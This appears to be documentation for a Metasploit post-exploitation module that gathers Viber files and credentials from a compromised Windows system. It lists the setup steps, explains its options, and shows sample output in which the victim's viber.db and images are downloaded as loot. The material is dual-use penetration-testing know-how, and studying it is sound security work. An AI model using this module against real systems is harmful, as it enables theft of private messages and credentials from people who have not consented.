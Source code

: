 ## Module Description

This post-exploitation module gathers artifacts found on Viber related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/viber
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf post(windows/gather/credentials/viber) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Viber's parent folder found
[*] Viber's Viber.db file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\ViberPC\447984845741\viber.db
[*] Viber Viber.db downloaded
[+] File saved to:  /root/.msf4/loot/20210513071138_default_192.168.56.106_viberviber.db_428035.db

[*] Viber's parent folder found
[*] Viber's parent folder found
[*] Viber's *.jpg file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\ViberPC\447984845741\Backgrounds\15\Thumbnails\10000486.jpg
[*] Viber 10000486.jpg downloaded
[+] File saved to:  /root/.msf4/loot/20210513071139_default_192.168.56.106_viber10000486.jp_920388.jpg

[*] Downloading C:\Users\IEUser\AppData\Roaming\ViberPC\447984845741\Backgrounds\15\Thumbnails\10000487.jpg
[*] Viber 10000487.jpg downloaded
[+] File saved to:  /root/.msf4/loot/20210513071139_default_192.168.56.106_viber10000487.jp_576575.jpg


[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```

